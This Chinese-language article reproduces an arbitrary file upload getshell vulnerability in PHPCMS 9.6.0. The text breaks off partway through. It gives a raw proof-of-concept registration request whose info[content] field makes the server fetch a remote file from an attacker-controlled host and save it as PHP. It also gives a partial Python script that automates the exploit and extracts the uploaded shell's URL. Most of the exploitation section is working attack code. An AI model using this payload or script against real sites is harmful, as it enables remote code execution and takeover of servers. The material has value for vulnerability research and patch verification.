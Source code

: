 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/f4MghsGAzHkeu62_5cp0VA)

前言
--

PHPCMS 是一款网站管理软件。该软件采用模块化开发, 支持多种分类方式。

环境搭建
----

本次 PHPCMS 版本为`9.6.0`, 安装步骤跟上一篇文章一样，参考 [PHPCMS_V9.2 任意文件上传 getshell 漏洞分析](https://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247489053&idx=1&sn=de7468d2e9605a23aab7f21bc1c31ae4&scene=21#wechat_redirect)

漏洞复现
----

在注册用户处，添加用户进行抓包（这里以 Tao 为例）

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7jg7R2zcvR1su4JavaibxCTV3HjPe32BGfGn2qm5ZrKQ6M1nxdyLzhyw/640?wx_fmt=png)

```
#poc
siteid=1&modelid=11&username=Tao&password=123456&email=Tao@qq.com&info[content]=<img src=http://www.tao.com/t.txt?.php#.jpg>&dosubmit=1&protocol=
# http://www.tao.com/t.txt显示的内容为你要上传的文件内容
```

本次测试中, `http://www.tao.com/t.txt`文本内容如下：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7uPaqfgiagpuQtenZtgTguYSldGUicyKo4vK2A7basPiaIlS5qZlgicsUVg/640?wx_fmt=png)

修改，放包回显如下，然后我们访问该返回的 url

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x7ibCNiaSko66iaRUgGZQc8iaFlptt1GnGibiaBZZJtatkhBb5dUe26kACZ8nw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCeNIvnItP7vIiao2zKuZ6x71PhGdj4J4BpbsOkjn91bFyoW7cc7CDEY0hmMkt8ByVcCBzmM3kmXBg/640?wx_fmt=png)

利用成功！！！这里再贴个脚本

```
'''
version: python3
Author: Tao
'''
import requests
import re
import random
import sys

def anyfile_up(surl,url):
   url = "{}/index.php?m=member&c=index&a=register&siteid=1".format(url)
   data = {
       'siteid': '1',
       'modelid': '1',
       'username': 'Tao{}'.format(random.randint(1,9999)),
       'password': '123456',
       'email': 'Tao{}@xxx.com'.format(random.randint(1,9999)),
       'info[content]': '<img src={}?.php#.jpg>'.format(surl),
       'dosubmit': '1',
       'protocol': ''
  }
   r = requests.post(url, data=data)
   return_url = re.findall(r'img src=(.*)>',r.text)
   if len(return_url):
       return return_url[0]
if __name__ == '__main__':
```